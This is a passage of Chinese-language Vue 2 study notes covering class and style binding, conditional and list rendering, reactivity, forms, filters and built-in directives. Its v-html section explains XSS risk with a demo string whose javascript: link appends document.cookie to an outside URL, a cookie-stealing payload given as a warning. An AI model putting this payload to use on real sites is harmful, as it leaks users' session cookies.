            imgUrl: 'https://gimg2.baidu.com/image_search/src=http%3A%2F%2Fhbimg.b0.upaiyun.com%2F44cfc6069846287f94bededd0399bb79f8c4cc6113147-v1zXZx_fw658&refer=http%3A%2F%2Fhbimg.b0.upaiyun.com&app=2002&size=f9999,10000&q=a80&n=0&g=0n&fmt=jpeg?sec=1644404404&t=b41cc6a04b6e8857746bce6ee5c6ef7c',
            url: 'http://www.baidu.com'
        }
    })
</script>

</body>
</html>
```


### 11.2 v-bind的动态绑定class(对象)

- class属性中传入的是k：v形式的对象，v的值是boolean类型
- v是true时，类会加载上去；为false时，类就不会加载上去
- 用法一：通过{}直接绑定一个类

```html
<h1 :class="{active: isActive}">{{message}}</h1>
```

- 用法二：通过判断，传入多个值

```html
 <h1 :class="{active: isActive, line: isLine}">{{message}}</h1>
```

- 用法三：和普通的类同时存在，并不冲突（title类是固定的，无法动态修改）

```html
 <h1 class="title" :class="{active: isActive, line: isLine}">{{message}}</h1>
```

- 用法四：可将k：v放在一个methods或者computed中

```html
 <h1 class="title" :class="getClasses()">{{message}}</h1>
```

例子：

```html
<!-- 此时h1上会绑定3个类属性，一个是title（这个是固定的，无法动态修改），一个是active，一个是line（这俩可以动态修改） -->
<!-- 点击事件绑定，可以动态修改active的boolean值，达到动态给button上是否绑定类的效果 -->
<div id="app">
    <h1 class="title" :class="{active: isActive, line: isLine}">{{message}}</h1>
    <h1 class="title" :class="getClasses()">{{message}}</h1>
    <button @click="btnClick">按钮</button>
</div>

<script src="../js/vue.js"></script>

<script>
    const app = new Vue({
        el: '#app',
        data: {
            message: 'hello',
            isActive: true,
            isLine: true
        },
        methods: {
            btnClick: function () {
                this.isActive = !this.isActive
            },
            getClasses: function () {
            	return {active: this.isActive, line: this.isLine}
            }
        }
    })
</script>
```


### 11.3 v-bind动态绑定class(数组)

- 数组语法的含义是：class后面跟着的是一个数组
- 用法一：直接通过{}绑定一个类

```html
<h1 :class="['active']">{{message}}</h1>
```

- 也可传递多个值

```html
<h1 :class="['active','line']">{{message}}</h1>
```

- 和普通的类共存

```html
 <h1 class="title" :class="['active','line']">{{message}}</h1>
```

- 放在methods或这computed中

```html
<h1 class="title" :class="getClasses()">{{message}}</h1>
```

例子：

```html
<!-- 数组中加上单引号，则直接绑定的就是单引号中的类名 -->
<!-- 数组中不加单引号，则会根据实例中的变量名进行解析 -->
<div id="app">
    <h1 class="title" :class="['active','line']">{{message}}</h1>
    <!-- 等同于class="title active line" -->
    <h1 class="title" :class="[active,line]">{{message}}</h1>
    <!-- 等同于class="title aaaaaa bbbbbb" -->
    <h1 class="title" :class="getClasses()">{{message}}</h1>
    <!-- 等同于class="title aaaaaa bbbbbb" -->
</div>

<script src="../js/vue.js"></script>

<script>
    const app = new Vue({
        el: '#app',
        data: {
            message: 'hello',
            active: 'aaaaaa',
            line: 'bbbbbb'
        },
        methods: {
            getClasses: function () {
                return [this.active, this.line]
            }
        }
    })
</script>
```


### 11.4 v-bind动态绑定style(对象)

- 用法一：直接通过{}绑定一个css属性

```html
 <h1 :style="{fontSize: '50px'}">hello Vue</h1>
```

- 用法二：直接通过{}绑定多个css属性

```html
<h1 :style="{fontSize: '50px', color: 'red'}">hello Vue</h1>
```

- 用法三：获取vue实例中的变量值

```html
 <h1 :style="{fontSize:finalSize, color:color}">hello Vue</h1>
```

- 用法四：可将k：v放在一个methods或者computed中

```html
 <h1 :style="getStyle()">hello Vue</h1>
```

例子：

```html
<!-- 如果是变量，则不可加单引号，从Vue实例中解析；如果是写死的，则加上单引号，就会当作字符串直接渲染 -->
<div id="app">
   <h1 :style="{fontSize:finalSize, color:color}">hello Vue</h1>
   <h1 :style="{fontSize:size + 'px'}">hello Vue</h1>
   <h1 :style="getStyle()">hello Vue</h1>
</div>

<script src="../js/vue.js"></script>

<script>
    const app = new Vue({
        el: '#app',
        data: {
            finalSize: '100px',
            color: 'red',
            size: 100
        },
        methods: {
            getStyle: function () {
                return {fontSize:this.finalSize, color:this.color}
            }
        }
    })
</script>
```


### 11.5 v-bind动态绑定style(数组)

- style后面接数组

```html
<div id="app">
    <h1 :style="[baseStyle,baseStyle1]">hello Vue</h1>
</div>

<script src="../js/vue.js"></script>

<script>
    const app = new Vue({
        el: '#app',
        data: {
           baseStyle: {fontSize: '100px', color: 'red'},
           baseStyle1: {backgroundColor: 'black'}
        }
    })
</script>
```


## 12、条件渲染

### 12.1 v-if、v-else-if和v-else

- 与js中的条件语句if、else和else if类似
- vue的条件指令可以根据表达式的值在DOM中渲染或销毁元素或组件
- v-if后面的条件为false时，对应的元素以及其子元素不会渲染，也就是说根本不会有对应的标签出现在DOM中

```html
<!-- 根据score的变化，dom会自动重新渲染 -->
<div id="app">
    <h1 v-if="score >= 90">优秀</h1>
    <h1 v-else-if="score >= 80">良好</h1>
    <h1 v-else-if="score >= 60">及格</h1>
    <h1 v-else>不及格</h1>
</div>

<script src="../js/vue.js"></script>

<script>
    const app = new Vue({
        el: '#app',
        data: {
            score: 70
        }
    })
</script>
```


### 12.2 v-show

- v-show的用法和v-if用法相似，也用于决定一个元素是否渲染
- v-show和v-if对比
  - v-if当条件为false时，压根不会有对应的元素在DOM中
  - v-show当条件为false时，仅仅是将元素的display属性设置为none
  - 使用v-if，元素可能获取不到；但是用的是v-show那么就能获取到
- 开发中选择
  - 当需要在显示和隐藏之间切片很频繁时，使用v-show
  - 当只有一次切换时，使用v-if

```html
<!-- 切换后，页面上两个标签都会消失，但是第一个是直接将标签删除了，第二个只是隐藏了，实质上还是存在的 -->
<div id="app">
    <h1 v-if="isShow">{{messaqe}}</h1>
    <h1 v-show="isShow">{{messaqe}}</h1>
    <button @click="btnClick">切换</button>
</div>

<script src="../js/vue.js"></script>

<script>
    const app = new Vue({
        el: '#app',
        data: {
            messaqe: 'lzy',
            isShow: true
        },
        methods: {
            btnClick() {
                this.isShow = !this.isShow;
            }
        }
    })
</script>
```


## 13、v-for

### 13.1 基本知识

- 当有一组数据需要渲染时，我们就可以使用v-for
  - 语法类似于js中的for
  - 格式：item in items的形式
- 若需要在遍历时拿到元素的索引值
  - 语法格式：v-for = (item,index) in items
  - 其中index的值就代表了取出的item在原数组的索引值
- 官方推荐我们在使用v-for时，给对应的元素或组件添加上一个:key属性
  - 当一层有很多相同的节点时，也就是列表节点时，想插入一个新的节点
  - 那么这个插入就是在指定地方插入后，后面的节点往后顺延，即：F变成C，C变成D，以此类推，效率低下
  - 但是如果加上key之后，给每个节点加上key作为一标识，便可在指定的位置直接插入即可
  - key的作用主要是为了高效的更新虚拟DOM



```html
<!-- 第一个是数字的索引，然后遍历数组输出数组中的每个元素 -->
<!-- 0 - 哈利波特
     1 - 海王
     2 - 阿甘正传 
-->
<!-- 第二个是对象属性的索引，然后遍历对象输出对象中的每个元素 -->
<!-- name - lzy
     age - 22
     sex - 男 
-->
<div id="app">
    <ul>
        <li v-for="(item,index) in movies">{{index}} - {{item}}</li>
    </ul>
    <ul>
    	<li v-for="(value,key) in info">{{key}} - {{value}}</li>
 	</ul>
    <ul>
     	<li v-for="(value,key,index) in info">{{key}} - {{index}} - {{value}}</li>
    </ul>
    <!-- 需要加一个:key属性，这样可以用于区分每个独立的个体，确保唯一性，然后在插入的时候便可以提高性能 -->
    <ul>
        <li v-for="item in movies" :key="item">{{item}}</li>
    </ul>
</div>

<script src="../js/vue.js"></script>
<script>
    const app = new Vue({
        el: '#app',
        data: {
            message: 'hello',
            movies: ['哈利波特','海王','阿甘正传'],
            info: {
                name: 'lzy',
                age: 22,
                sex: '男'
            }
        }
    })
</script>
```




### 13.2 用index作为key的时候

- key是index，会造成数据推移，挪空
- 如果key没写的时候，vue默认会补全一个key，就是index




### 13.3 用唯一标识作为key的时候

- 效率高，且没有数据推移的错误




### 13.4 key的作用总结

- 虚拟DOM中key的作用
  - key是虚拟DOM对象的标识，当数据发生变化时，Vue会根据【新数据】生成【新的虚拟DOM】
  - 随后Vue进行【新虚拟DOM】与【旧虚拟DOM】的差异比较
- 对比规则
  - 旧虚拟DOM中找到了与新虚拟DOM相同的key
    - 若虚拟DOM中内容没变，直接使用之前的真实DOM
    - 若虚拟DOM内容变了，则生成新的真实DOM，随后替换掉页面中之前的真实DOM
  - 旧虚拟DOM中未找到与新虚拟DOM相同的key
    - 创建新的真实DOM，随后渲染到页面
- 用index作为key可能引发的问题
  - 若对数据进行：逆序添加、逆序删除等破环顺序操作
    - 会产生没有必要的真实DOM更新	  ===> 界面效果没问题，但效率低
  - 如果结构中还包含输入类的DOM
    - 会产生错误DOM更新  ===> 界面有问题
- 开发中如何选择key
  - 最好使用每条数据的唯一标识作为key，比如id、手机号、身份证号等
  - 如果不存在对数据的逆序添加、逆序删除等破坏顺序操作，仅用于渲染列表用于展示，使用index作为key时没有问题的


## 14、列表渲染

### 14.1 三个高级函数

#### 14.1.1 filter过滤函数

- 作用：将数组中的元素根据自定义的逻辑进行过滤，得到一个新的数组
- 要求：必须返回一个boolean值
- 当返回true时，函数内部会自动将这次回调的n加入到新的数组中
- 当返回false时，函数内部会将此数据进行过滤掉
- 注意：
  - 不会对空数组进行检测
  - 不会改变原始数组

```java
const nums = [66,77,88,99,101,111,121];
let newNums = nums.filter(function (n) {
    return n < 100
})
console.log(newNums)
// 输出：66,77,88,99
```


#### 14.1.2 map函数

- 作用：它返回一个新的数组，数组中的元素为原始数组调用函数处理后的值
- 注意：
  - 不会对空数组进行检测
  - 不会改变原始数组
- 参数1：function(currentValue, index, arr)：**必须**。为一个函数，数组中的每个元素都会执行这个函数，其中函数参数：
  - currentValue：**必须**。当前元素的的值。
  - index：**可选**。当前元素的索引。
  - arr：**可选**。当前元素属于的数组对象。
- 参数2：thisValue：**可选**。对象作为该执行回调时使用，传递给函数，用作"`this`"的值。

```javascript
const nums = [66,77,88,99,101,111,121];
let newNums = nums.map(function (n) {
    return n * 2
})
console.log(newNums)
// 输出132,154,176，198,202，222,242
```


#### 14.1.3 reduce函数

- 作用：reduce() 方法接收一个函数作为累加器，数组中的每个值（从左到右）开始缩减，最终计算为一个值。
- 注意： reduce() 对于空数组是不会执行回调函数的。
- 语法及参数：

```javascript
arr.reduce(function(pre,cur,index,arr){
	
}, init);
// arr 可选，表示原数组；
// pre 必需，表示上一次调用回调时的返回值，或者初始值 init;
// cur 必需，表示当前正在处理的数组元素；
// index 可选，表示当前正在处理的数组元素的索引，若提供 init 值，则索引为0，否则索引为1；
// init 可选，表示传递给函数的初始值
```

- 示例：

```javascript
// 1、数组累加
const nums = [66,77,88,99,101,111,121];
let newNums = nums.reduce(function (preValue,currentValue) {
    return preValue + currentValue;
})
console.log(newNums)
// 输出：663

// 2、数组求最大值
const nums = [66,77,88,99,101,111,121];
let newNums = nums.reduce(function (preValue,currentValue) {
    return Math.max(preValue,currentValue);
})
console.log(newNums)
// 输出：121

// 3、数组去重
const nums = [66,66,88,88,99,99,100];
let newNums = nums.reduce(function (preValue,currentValue) {
    preValue.indexOf(currentValue) === -1 && preValue.push(currentValue);
    return preValue;
},[])
console.log(newNums)
// 输出：66，88，99，100
```


#### 14.1.4 三种方法综合使用

可以在方法后面直接接下一个方法

```javascript
const nums = [11,22,33,44,55,66,77,88,99];
let newNums = nums.map(function (n){
   return n * 2;
}).filter(function (n){
   return n < 100;
}).reduce(function (preValue, currentValue){
   return preValue + currentValue;
},0)
console.log(newNums);
// 该数组会经过三次变化
// 第一次会将数组全部翻倍，第二次筛选出小于100的值，第三次将所有值相加
// 最终输出220
```


### 14.2 数组过滤之监视属性

- inedxOf('') = 0 所以初始时，可以用空字符串匹配
- inedxOf会返回匹配的字符在字符串中的下标
- 加上immediate参数，开始是undefined，后面变为''，所以会触发监听

~~~html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>数组过滤之监视属性</title>
    <script type="text/javascript" src="../js/vue.js"></script>
</head>
<body>

  <div id="root">
    <h2>人员列表</h2>
    <input type="text" placeholder="请输入名字" v-model="keyWord"/>
    <ul>
      <li v-for="(item, index) in filterPerson" :key="index">
        {{item.name}} - {{item.age}} - {{item.sex}}
      </li>
    </ul>
  </div>

  <script>
    Vue.config.productionTip = false;

    const vm = new Vue({
      el: '#root',
      data: {
        keyWord: '',
        persons: [
          {id: '001', name: '马冬梅', age: 19, sex: '女'},
          {id: '002', name: '周冬雨', age: 20, sex: '女'},
          {id: '003', name: '周杰伦', age: 21, sex: '男'},
          {id: '004', name: '温兆伦', age: 22, sex: '男'}
        ],
        filterPerson: []
      },
      watch: {
        keyWord: {
          immediate: true,
          handler(newValue, oldValue) {
            this.filterPerson = this.persons.filter(function (p) {
              return p.name.indexOf(newValue) !== -1
            })
          }
        }
      }
    })

  </script>

</body>
</html>
~~~


### 14.3 数组过滤之计算属性

- 两个重要的小原则
  - 所被Vue管理的函数，最好写成普通函数，这样this的指向才是vm 或 组件实例化对象
  - 所有不被Vue管理的函数（定时器的回调函数、ajax的回调函数等），最好写成箭头函数，这样this的指向才是vm 或 组件实例化对象

~~~html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <title>数组过滤之计算属性</title>
  <script type="text/javascript" src="../js/vue.js"></script>
</head>
<body>

<div id="root">
  <h2>人员列表</h2>
  <input type="text" placeholder="请输入名字" v-model="keyWord"/>
  <ul>
    <li v-for="(item, index) in filterPerson" :key="index">
      {{item.name}} - {{item.age}} - {{item.sex}}
    </li>
  </ul>
</div>

<script>
  Vue.config.productionTip = false;

  const vm = new Vue({
    el: '#root',
    data: {
      keyWord: '',
      persons: [
        {id: '001', name: '马冬梅', age: 19, sex: '女'},
        {id: '002', name: '周冬雨', age: 20, sex: '女'},
        {id: '003', name: '周杰伦', age: 21, sex: '男'},
        {id: '004', name: '温兆伦', age: 22, sex: '男'}
      ]
    },
    computed: {
      filterPerson() {
        // 注意：此处不能用常规函数，要用箭头函数，因为这里写成箭头函数，这样他的this就是空的，就会往外找，那么就是firstName的实例；而如果写成普通函数，且setTimeout本身就是window的方法，执行的时候this就是window，所以如果在这写成普通函数就不会成功
        return this.persons.filter((p) => {
          return p.name.indexOf(this.keyWord) !== -1
        })
      }
    }

  })

</script>

</body>
</html>
~~~


### 14.4 数组排序

- sort是改变原数组的
- arr.sort((a, b) => { return a - b }) 升序
- arr.sort((a, b) => { return b - a }) 降序

~~~html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>数组排序</title>
    <script type="text/javascript" src="../js/vue.js"></script>
</head>
<body>

<div id="root">
  <h2>人员列表</h2>
  <input type="text" placeholder="请输入名字" v-model="keyWord"/>
  <button @click="sortType = 2">年龄升序</button>
  <button @click="sortType = 1">年龄降序</button>
  <button @click="sortType = 0">原顺序</button>
  <ul>
    <li v-for="(item, index) in filterPerson" :key="index">
      {{item.name}} - {{item.age}} - {{item.sex}}
    </li>
  </ul>
</div>

<script>
  Vue.config.productionTip = false;

  const vm = new Vue({
    el: '#root',
    data: {
      keyWord: '',
      sortType: 0, // 0：原顺序；1：年龄降序；2：年龄升序
      persons: [
        {id: '001', name: '马冬梅', age: 31, sex: '女'},
        {id: '002', name: '周冬雨', age: 20, sex: '女'},
        {id: '003', name: '周杰伦', age: 44, sex: '男'},
        {id: '004', name: '温兆伦', age: 22, sex: '男'}
      ]
    },
    computed: {
      filterPerson() {
        let arr = this.persons.filter((p) => {
          return p.name.indexOf(this.keyWord) !== -1
        })
        if(this.sortType) {
          // 不为0的时候，对列表进行排序
          arr.sort((a, b) => {
            return this.sortType == 2 ? (a.age - b.age) : (b.age - a.age)
          })
        }
        return arr
      }
    }
  })

</script>

</body>
</html>
~~~


## 15、Vue监测数据原理

### 15.1 问题抛出

- 对象属性一个个修改，是可以监测到的，会奏效
- 直接修改数组中的一个对象，这样是不奏效的，vue监测不到

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>问题抛出</title>
  <script type="text/javascript" src="../../js/vue.js"></script>
</head>
<body>

  <div id="root">
    <h2>人员列表</h2>
    <button @click="updateMei">改变马东梅的数据</button>
    <ul>
      <li v-for="(item, index) in persons" :key="index">
        {{item.name}} - {{item.age}} - {{item.sex}}
      </li>
    </ul>
  </div>

  <script>
    Vue.config.productionTip = false;

    const vm = new Vue({
      el: '#root',
      data: {
        persons: [
          {id: '001', name: '马冬梅', age: 19, sex: '女'},
          {id: '002', name: '周冬雨', age: 20, sex: '女'},
          {id: '003', name: '周杰伦', age: 21, sex: '男'},
          {id: '004', name: '温兆伦', age: 22, sex: '男'}
        ],
      },
      methods: {
        updateMei() {
          // 可以这样一个一个属性修改，是奏效的
          //this.persons[0].name = "老马";
          //this.persons[0].age = 69;
          //this.persons[0].sex = "男";
            
          // 这样是不奏效的，但是底层数组中的数据的确修改了，只是vue没检测到  
          this.persons[0] = {id: '001', name: '老马', age: 69, sex: '男'}
        }
      }
    })

  </script>

</body>
</html>
```

- 页面数据没改，但是实际上数组中的数据是改了的



### 15.2 监测模拟

#### 15.2.1 监测对象属性变化

~~~html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>监测对象属性变化</title>
</head>
<body>

    <script>
        let data = {
            name: 'lzy',
            age: 20
        }

        // 创建一个监视的实例对象，用于监视data中属性的变化
        const obs = new Observer(data)
        console.log(obs)
        // 创造一个vm实例
        let vm = {}
        vm._data = data = obs

        function Observer(obj) {
            // 汇总对象中所有的属性形成一个数组
            const keys = Object.keys(obj)
            // 遍历
            keys.forEach((k) => {
                // 此处的this指向Observer对象
                Object.defineProperty(this, k, {
                    get() {
                        console.log('读取' + k + '的属性')
                        return obj[k]
                    },
                    set(val) {
                        console.log('修改' + k + '的属性')
                        obj[k] = val
                    }
                })
            })
        }
    </script>

</body>
</html>
~~~


#### 15.2.2 Vue.set的用法

- Vue.set(target, propertyName/index, value)
- 或$vm.set(target, propertyName/index, value)
  - 参数一：target添加的数据对象
  - 参数二：添加的属性名/数组索引
  - 参数三：添加的属性值
  - 返回值：设置的值
- 用法：向响应式对象中添加一个property，并确保这个新property同样是响应式的，且触发视图更新。它必须用于向响应式对象上添加新property，因为Vue无法探测到普通的新增property（比如this.myObject.newProperty = 'hi'）
- **注意：对象不能是Vue实例，或者Vue实例的根数据对象**，即：不能写成下面两种方式
  - Vue.set(vm, 'sex', '男')
  - Vue.set(vm._data, 'sex', '男')

~~~html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Vue.set的用法</title>
  <script type="text/javascript" src="../../js/vue.js"></script>
</head>
<body>

  <div id="app">
    <h1>学校名称：{{school.name}}</h1>
    <h1>学校分数：{{school.score}}</h1>
    <h1>学生姓名：{{student.name}}</h1>
    <h1>学生年龄：{{student.age}}</h1>
    <h1>学生性别：{{student.sex}}</h1>
    <button type="button" @click="addProperty">添加属性</button>
  </div>

  <script>
    const vm = new Vue({
      el: '#app',
      data: {
        school: {
          name: '湖北理工',
          score: 480
        },
        student: {
          name: 'lzy',
          age: 25
        }
      },
      methods: {
        addProperty() {
          // 写法一：Vue.set
          Vue.set(this.student, 'sex', '男')
          // 写法二：vm.$set（vm即Vue实例）
          vm.$set(this.student, 'sex', '男')
        }
      }
    })
  </script>

</body>
</html>
~~~


#### 15.2.3 监测数组属性变化

- 因为Vue._data中没有针对每项的get和set方法，所以当数据项发生变化时，vue监测不到变化，这就是15.1中直接修改对应的数组项整体，页面响应式渲染不生效的原因



- 所以，要想整体更新数组项的值，必须如下考虑。

  - **方式一：变更方法。**Vue 将被侦听的数组的变更方法进行了**包裹**，所以它们也将会触发视图更新。这些被包裹过的方法包括：

    

    - push()
    - pop()
    - shift()
    - unshift()
    - splice()
    - sort()
    - reverse()

  - **方式二：替换数组。**它们不会变更原始数组，而**总是返回一个新数组**。当使用非变更方法时，可以用新数组替换旧数组

    - filter()
    - concat()
    - slice()

    ~~~javascript
    example1.items = example1.items.filter(function (item) {
      return item.message.match(/Foo/)
    })
    ~~~

  - **方式三：通过Vue.set方法**。第二个属性就是数组索引

    ~~~js
    Vue.set(this._data.persons, 0, {id: '001', name: '老马', age: 69, sex: '男'})
    ~~~


#### 15.2.4 总结案例

~~~html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>总结案例</title>
  <script type="text/javascript" src="../../js/vue.js"></script>
</head>
<body>

  <div id="app">
    <h1>学生信息</h1>

    <button @click="student.age++">年龄+1岁</button><br/>
    <button @click="addSex">添加性别属性，默认值：男</button><br/>
    <button @click="addFriend">在列表末位添加一个朋友</button><br/>
    <button @click="updateFriend">修改第一个朋友名字为：张三</button><br/>
    <button @click="addHobby">添加一个爱好</button><br/>
    <button @click="updateHobby">修改第一个爱好为：开车</button><br/>

    <h3>姓名：{{student.name}}</h3>
    <h3>年龄：{{student.age}}</h3>
    <h3 v-if="student.sex">性别：{{student.sex}}</h3>
    <h3>爱好：</h3>
    <ul>
      <li v-for="(h, index) in student.hobby" :key="index">
        {{h}}
      </li>
    </ul>
    <h3>朋友们：</h3>
    <ul>
      <li v-for="(f, index) in student.friends" :key="index">
        {{f.name}}--{{f.age}}
      </li>
    </ul>
  </div>

  <script>
    const vm = new Vue({
      el: '#app',
      data: {
        student: {
          name: 'tom',
          age: 18,
          hobby: ['抽烟','喝酒','打麻将'],
          friends: [
            {name: 'jerry', age:35},
            {name: 'tony', age:36}
          ]
        }
      },
      methods: {
        addSex() {
          // Vue.set(this.student, 'sex', '男')
          vm.$set(vm._data.student, 'sex', '男')
        },
        addFriend() {
          this.student.friends.push({name: 'lihua', age:36})
        },
        updateFriend() {
          Vue.set(this.student.friends, 0, {name: '张三', age:35})
        },
        addHobby() {
          this.student.hobby.push('打游戏')
        },
        updateHobby() {
          Vue.set(this.student.hobby, 0, '开车')
        }
      }
    })
  </script>

</body>
</html>
~~~


## 16、收集表单数据

- **/<input type="text"/>**，则v-model收集的是value值，用户输入的就是value值
- **/<input type="radio"/>**，则v-model收集的是value值，且要给标签配置value值
- **/<input type="checkbox"/>**
  - 没有配置input的value属性，那么收集的就是checked（勾选 or 未勾选，是布尔值）
  - 配置input的value属性
    - v-model的初始值是非数组，那么收集的就是checked（勾选 or 未勾选，是布尔值）
    - v-model的初始值是数组，那么收集的就是value组成的数组
- 备注：v-model的三个修饰符
  - lazy：失去焦点再收集数据
  - number：输入字符串转为有效的数字
  - trim：首尾空格过滤

~~~html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>收集表单数据</title>
  <script type="text/javascript" src="../js/vue.js"></script>
</head>
<body>

  <div id="root">
    <form>
      账号：<input type="text" v-model="userInfo.account" /> <br/>
      密码：<input type="password" v-model="userInfo.password" /> <br/>
      年龄：<input type="number" v-model.number="userInfo.age" /> <br/>
      性别：
      男<input type="radio" name="sex" v-model="userInfo.sex" value="男" />
      女<input type="radio" name="sex" v-model="userInfo.sex" value="女" /> <br/>
      爱好：
      学习<input type="checkbox" name="hobby" v-model="userInfo.hobby" value="study" />
      吃饭<input type="checkbox" name="hobby" v-model="userInfo.hobby" value="eat" />
      睡觉<input type="checkbox" name="hobby" v-model="userInfo.hobby" value="sleep" /> <br/>
      校区：
      <select v-model="userInfo.city">
        <option value="">请选择校区</option>
        <option value="武汉">武汉</option>
        <option value="北京">北京</option>
        <option value="上海">上海</option>
      </select> <br/>
      其他信息：<textarea v-model="userInfo.other"></textarea> <br/>
      <button @click.prevent="sub">提交</button>
    </form>
  </div>

  <script>
    const app = new Vue({
      el: '#root',
      data: {
        userInfo: {
          account: '',
          password: '',
          age: 18,
          sex: '',
          hobby: [],
          city: '',
          other: ''
        }
      },
      methods: {
        sub() {
          console.log(this.userInfo)
        }
      }
    })
  </script>

</body>
</html>
~~~


## 17、过滤器

- 定义：对要显示的数据进行特定格式化后再显示（适用于一些简单逻辑的处理）
- 语法：
  - 注册过滤器：Vue.filter(name, callback) 或 new Vue({filters: {}})
  - 使用过滤器：{{xxx | 过滤器名}} 或 v-bind:属性 = "xxx | 过滤器名"
- 备注：
  - 过滤器也可接收额外参数，多个过滤器也可以串联
  - **并没有改变原本的数据，是产生了新的对应的数据**
  - **配置在vue实例里面的过滤器是局部的**

~~~html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <title>过滤器</title>
  <script type="text/javascript" src="../js/vue.js"></script>
  <script type="text/javascript" src="../js/dayjs.min.js"></script>
</head>
<body>

  <div id="root">
    <h2>未格式化的时间：{{time}}</h2>
    <!-- 使用计算属性格式化时间 -->
    <h2>计算属性格式化的时间：{{fmtTime}}</h2>
    <!-- 使用方法格式化时间 -->
    <h2>方法格式化的时间：{{getFmtTime()}}</h2>
    <!-- 无参过滤器格式化的时间 -->
    <h2>无参过滤器格式化的时间：{{time | timeFormater}}</h2>
    <!-- 有参过滤器格式化的时间 -->
    <h2>有参过滤器格式化的时间：{{time | timeFormater1('YYYY-MM-DD')}}</h2>
    <!-- 过滤器串联使用 -->
    <h2>过滤器串联使用格式化的时间：{{time | timeFormater1('YYYY-MM-DD') | mySlice}}</h2>
  </div>

  <script>
    // 全局过滤器配置
    Vue.filter('mySlice', function (value) {
      return value.slice(0, 4)
    })

    const app = new Vue({
      el: '#root',
      data: {
        time: 1621561377603 //时间戳
      },
      methods: {
        getFmtTime() {
          return dayjs(this.time).format("YYYY-MM-DD HH:mm:ss")
        }
      },
      computed: {
        fmtTime() {
          return dayjs(this.time).format("YYYY-MM-DD HH:mm:ss")
        }
      },
      filters: {
        timeFormater(value) {
          return dayjs(value).format("YYYY-MM-DD HH:mm:ss")
        },
        timeFormater1(value, str) {
          return dayjs(value).format(str)
        }
      }
    })
  </script>

</body>
</html>
~~~


## 18、内置指令

### 18.1 v-text

- v-text作用和Mustache比较相似：**都是用于将数据显示在界面中，向其所在的节点种渲染文本内容**
- v-text通常情况下，接受的是一个string类型
- 与插值语法区别：v-text会替换掉节点中的内容，{{xx}}则不会
- v-text只会将字符串当成文本解析，不会当成标签

```html
<div id="app">
  <!-- 输出:hello,lsq -->   
  <h2>{{message}},lsq</h2>
  <!-- 这个时候会整个替换掉节点内容，故而你好不会输出 -->
  <h2 v-text="message">你好</h2>
  <!-- 输出:<h2>lsq</h2> -->
  <h2 v-text="str"></h2>
</div>

<script src="../js/vue.js"></script>
<script>
  const app = new Vue({
    el: '#app',
    data: {
      message: 'hello',
      str: '<h2>lsq</h2>'  
    }
  })
</script>

<!-- 通常不适用v-text，因为没有mustache语法灵活 -->
```


### 18.2 v-html

- 某些情况下，从服务器请求的数据本身就是一个HTML代码
  - 如果直接通过{{}}来输出，会将HTML代码也一起输出
  - 但是希望的是按照HTML格式进行解析，并且显示对应的内容
- 与插值语法区别：v-html会替换掉节点中的内容，{{xx}}则不会
- 如果希望解析出HTML展示，可以使用v-html指令
  - 该指令后往往会跟上一个string类型
  - 会将string的html解析并且进行渲染

```html
<div id="app">
    <h2>{{url}}</h2>
    <h2 v-html="url"></h2>
</div>

<script src="../js/vue.js"></script>
<script>
    const app = new Vue({
        el: '#app',
        data: {
            url: '<a href="http://www.baidu.com">百度一下</a>'
        }
    })
</script>

<!-- 第一个会直接按照字符串的形式输出url -->
<!-- 第二个则会将字符串解析为html标签，然后显示一个超链接 -->
```

- 安全性问题：
  - 在网站上动态渲染任意HTML是非常危险的，容易导致XSS攻击
  - 一定要在可信的内容上使用v-html，永远不要在用户提交的内容上



- 每次访问服务器，服务器都会给点cookie带回来，然后浏览器会存储在硬盘中，当下次请求发生时，只需要带上cookie，服务器就能识别出身份进行交互
- 通过document.cookie获取当前网站的所有cookie，但是仅限于没有HttpOnly修饰的，被HttpOnly修饰的cookie，是不可被http协议以外的东西查看或者携带



- 下面的例子：可通过document.cookie获取到当前网站的所有cookie进行跳转，这样信息就会暴露在浏览器的网址上http://www.baidu.com?a=1&b=2，这就很危险了

~~~html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <title>v-html</title>
  <script type="text/javascript" src="../../js/vue.js"></script>
</head>
<body>

  <div id="app">
    <h1 v-html="str"></h1>
  </div>

  <script src="../js/vue.js"></script>
  <script>
    const app = new Vue({
      el: '#app',
      data: {
        str: '<a href=javascript:location.href="http://www.baidu.com?" + document.cookie>百度一下</a>'
      }
    })
  </script>

</body>
</html>
~~~


### 18.3 v-cloak

- 在某些情况下，我们浏览器会直接显示出未编译的mustache标签
- 比如：在运行代码的时候，先执行html部分，在页面上渲染出Mustache标签，但是运行vue解析代码的时候卡住了，这时候就会有一个渐变效果，为了防止这种情况，可以使用v-cloak

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Title</title>
    <style>
      [v-cloak] {
        display: none;
      }
    </style>
</head>
<body>

<div id="app" v-cloak>
  <h2>{{message}}</h2>
</div>

<script src="../js/vue.js"></script>
<script>
  // 在vue解析之前，div中有一个属性v-cloak
  // 在vue解析之后，div中没有这个属性v-cloak  
  setTimeout(function () {
    const app = new Vue({
      el: '#app',
      data: {
        message: 'hello lsq'
      }
    })
  }, 3000)
</script>

</body>
</html>

<!-- 不加v-cloak，页面打开会显示{{message}}，3s后会变为hello lsq -->
<!-- 加了v-cloak后，页面打开什么也不显示，3s后会变为hello lsq -->
```

- Vue未介入之前div是有v-cloak属性的



- Vue介入之后会将标签中的v-cloak属性移除




### 18.4 v-once语法

- 某些情况下，我们不希望界面随意的跟随改变，就可以使用v-once
- v-once后面不需要跟任何表达式
- 该指令表示元素和组件只渲染一次，不会随着数据的改变而改变

```html
<div id="app">
  <h2>{{message}}</h2>
  <h2 v-once>{{message}}</h2>
</div>

<script src="../js/vue.js"></script>
<script>
  const app = new Vue({
    el: '#app',
    data: {
      message: 'hello lsq'
    }
  })
</script>

<!-- 页面第一次打开时，两个标签都会被渲染，都为hello lsq -->
